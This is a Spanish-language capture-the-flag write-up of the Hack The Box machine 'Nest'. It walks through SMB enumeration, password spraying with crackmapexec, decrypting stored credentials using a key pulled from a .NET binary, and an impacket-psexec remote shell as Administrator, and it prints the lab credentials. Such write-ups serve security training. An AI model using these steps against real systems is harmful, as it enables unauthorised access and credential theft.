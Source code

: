 ```yaml
---
description: '✍️ Autor: VbScrub🔍 Dificultad: Fácil 📅 Fecha de creación: 04/06/2020'
---
```


# Nest

### 🔍 RECONOCIMIENTO

En primer lugar, tras conectarnos a la máquina, utilizamos el comando:

```bash
ping -c 1 10.10.10.178
```

para verificar la conectividad de red.

<figure><img src="../../.gitbook/assets/image (14).png" alt=""><figcaption></figcaption></figure>

A continuación, realizamos el comando:

```bash
nmap -sC -sV -p- 10.10.10.178
```

para realizar un escaneo de puertos y servicios detallado en la dirección IP.

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Durante el escaneo se identificaron los siguientes puertos abiertos:

* **Puerto 445 (SMB):** El puerto 445/tcp está abierto y ejecutando el servicio `microsoft-ds?`, lo que indica la posible presencia de un servicio SMB en el sistema.
* **Puerto 4386 (unknown):** El puerto 4386/tcp también está abierto y ejecutando un servicio desconocido. Según el fingerprinting de respuesta, el servicio se identifica como `Reporting Service V1.2`, lo que sugiere que permite a los usuarios ejecutar consultas en bases de datos mediante el formato HQK. Entre los comandos disponibles se encuentran `LIST`, `SETDIR`, `RUNQUERY`, `DEBUG` y `HELP`. Esta funcionalidad podría representar un posible vector de ataque si el servicio no está correctamente asegurado.

A continuación, se procederá a analizar cada uno de estos servicios en busca de posibles vectores de ataque.

### 🔎 EXPLORACIÓN

Se utiliza el comando:

```bash
sudo nmap -sCV -p445,4386 -v 10.10.10.178
```

para que nos proporcione más información sobre esos puertos específicamente.

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Ponemos el dominio en el `/etc/hosts`.

```bash
echo "10.10.10.178 nest.htb" >> /etc/hosts
```

Listamos recursos compartidos.

```bash
smbclient -L 10.10.10.178
```

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Listamos el contenido de los recursos compartidos.

```bash
smbclient \\\\nest.htb\\Users -N
```

<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```
smbclient \\\\nest.htb\\Data -N
```

<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

En la ruta `/Shared/Templates/HR` hay un archivo interesante.

<figure><img src="../../.gitbook/assets/image (6) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Tenemos unas credenciales por lo que con los usuarios descubiertos antes realizamos fuerza bruta.

```bash
crackmapexec smb nest.htb -u usuarios -p 'welcome2019' --continue-on-success
```

<figure><img src="../../.gitbook/assets/image (7) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Intenté iniciar sesión con los tres usuarios y, al usar **TempUser**, obtuve un archivo, pero estaba vacío. Volví a acceder al recurso compartido **Data** como **TempUser** y descargué los archivos. Entre ellos, encontré un archivo llamado **RU\_Config.xml**.

<figure><img src="../../.gitbook/assets/image (8) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

En otro archivo (**config.xml**) encontramos también información.

<figure><img src="../../.gitbook/assets/image (9) (1) (1).png" alt=""><figcaption></figcaption></figure>

Entramos donde **Carl**.

```bash
smbclient -U ./TempUser //10.10.10.178/Secure$
```

<figure><img src="../../.gitbook/assets/image (10) (1).png" alt=""><figcaption></figcaption></figure>

### 🚀 **EXPLOTACIÓN**

Lo que estamos buscando es una línea del artículo que mencionamos antes, un algoritmo para descifrar el cifrado del archivo **RU\_Config.xml**. Quiero hacerlo rápido, así que voy a dotnetfiddle.net, realizar algunos ajustes al código y ejecutarlo con la contraseña cifrada que está en el archivo de configuración.

{% embed url="https://dotnetfiddle.net/" %}

El resultado es **xRxRxPANCAK3SxRxRx**. Bien, el usuario estaba claro, y ahora la contraseña está descifrada.

```
smbclient -U ./c.smith //10.10.10.178/Users
```

<figure><img src="../../.gitbook/assets/image (11) (1).png" alt=""><figcaption></figcaption></figure>

Seguimos investigando para escalar a **root**.

<figure><img src="../../.gitbook/assets/Captura de pantalla 2025-02-24 110901.png" alt=""><figcaption></figcaption></figure>

{% embed url="https://superuser.com/questions/1520250/read-alternate-data-streams-over-smb-with-linux?source=post_page-----125aa20f9fea---------------------------------------" %}

```bash
allinfo "Debug Mode Password.txt"
```

<figure><img src="../../.gitbook/assets/image (13) (1).png" alt=""><figcaption></figcaption></figure>

Nos lo descargamos.

```
get "Debug Mode Password.txt":Password:$Data
```

Esto debería devolverte la contraseña en formato claro, que en este caso es **WBQ201953D8w**.

Con la contraseña obtenida, conéctate al servidor HQK:

```bash
debug WBQ201953D8w
```

Dentro del servidor, ejecuta el siguiente comando en el directorio LDAP para ver la configuración:

```bash
showquery 2
```

<figure><img src="../../.gitbook/assets/image (14) (1).png" alt=""><figcaption></figcaption></figure>

Esto debería devolverte las credenciales del **Administrador** en formato cifrado. En el ejemplo, la contraseña es **yyEq0Uvvhq2uQOcWG8peLoeRQehqip/fKdeG/kjEVb4=**.

```bash
echo "yyEq0Uvvhq2uQOcWG8peLoeRQehqip/fKdeG/kjEVb4=" | base64 --decode
```

Ejecuté el comando `file` sobre el archivo `HqKLdap.exe` y descubrí que es un ejecutable .NET. Lo copié a mi sistema Windows y lo abrí utilizando ILSpy. Dentro del archivo `HqKLdap`, en la sección `CR`, encontré la siguiente línea de código:

```csharp
return RD(EncryptedString, "667912", "1313Rf99", 3, "1L1SA61493DRV53Z", 256);
```

Reemplacé esta línea en el script de Nest y modifiqué el archivo `config.xml` con el nombre de usuario y la contraseña de "Administrator". Luego ejecuté el script y obtuve lo siguiente:

**Anterior:**

```
XtH4nkS4Pl4y1nGX
Administrator
```

**Nuevo:**

```
AJPcXFcqZ32B993fPwoHWA==
XtH4nkS4Pl4y1nGX
```

La contraseña obtenida es: `XtH4nkS4Pl4y1nGX`.

Ahora, intentemos obtener una shell utilizando la siguiente herramienta:

```bash
impacket-psexec Administrator:XtH4nkS4Pl4y1nGX@nest.htb
```

Con este comando, deberíamos obtener acceso como `Administrator`.

### 🔐 PRIVILEGIOS

Al estar dentro y ejecutar:

```bash
whoami
```

somos **root.**

<figure><img src="../../.gitbook/assets/image (15).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (16).png" alt=""><figcaption></figcaption></figure>

